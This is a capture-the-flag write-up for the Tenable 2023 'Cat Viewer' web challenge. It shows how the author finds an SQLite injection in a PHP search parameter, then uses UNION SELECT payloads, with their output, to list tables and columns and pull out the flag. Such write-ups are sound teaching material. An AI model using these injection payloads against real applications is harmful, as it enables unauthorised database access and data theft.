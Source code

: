 ```yaml
---
title: Tenable 2023 - Cat Viewer
date: Fri Aug 11 11:14:39 PM +04 2023
categories: [Writeup]
tags: [ctf,tenable,tenable2023,web,sqli]
---
```


### Description

I built a little web site to search through my archive of cat photos. I hid a little something extra in the database too. See if you can find it!

[https://nessus-catviewer.chals.io/](https://nessus-catviewer.chals.io/)

### Solution

As soon as we go to given link we are redirected to <https://nessus-catviewer.chals.io/index.php?cat=Shelton>

1. Application runs on PHP
2. `cat` variable returns images
3. `Searching for cats with names like Shelton` most likely the SQL statement.

Let's try inserting invalid statement to get error message.

```
Searching for cats with names like Shelton"
                                          ^

Warning: SQLite3::query(): Unable to prepare statement: 1, unrecognized token: """ in /var/www/html/index.php on line 19

Fatal error: Uncaught Error: Call to a member function numColumns() on bool in /var/www/html/index.php:21 Stack trace: #0 {main} thrown in /var/www/html/index.php on line 21
```

Ok, we identifed that we are dealing with SQLite3.
I then tried UNION SQLi fuzzing:

```
Searching for cats with names like Shelton" UNION SELECT 1,2,3,4 -- -  
  
Name: 3  
  
<img src="data:image/gif;base64,2" />
```

Extract table names: ([PayloadsAllTheThings - SQLite](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md)) 
```
Searching for cats with names like Shelton" UNION SELECT 1,2,group_concat(tbl_name),4 FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'--  
  
Name: cats  
  
<img src="data:image/gif;base64,2" />
```

Extact columns:

```
Searching for cats with names like Shelton" UNION SELECT 1,2,sql,4 FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='cats' --


Name: CREATE TABLE cats (
    id INTEGER PRIMARY KEY AUTOINCREMENT,
    image TEXT NOT NULL,
    name TEXT NOT NULL,
    flag TEXT NOT NULL
)
<img src="data:image/gif;base64,2" />
```

Flag: 

```
Searching for cats with names like Shelton" UNION SELECT 1,2,flag,4 FROM cats --  
  
Name:  
  
<img src="data:image/gif;base64,2" />
Name: flag{a_sea_of_cats}  
  
<img src="data:image/gif;base64,2" />
```

> Flag: flag{a_sea_of_cats} 
{: .prompt-tip }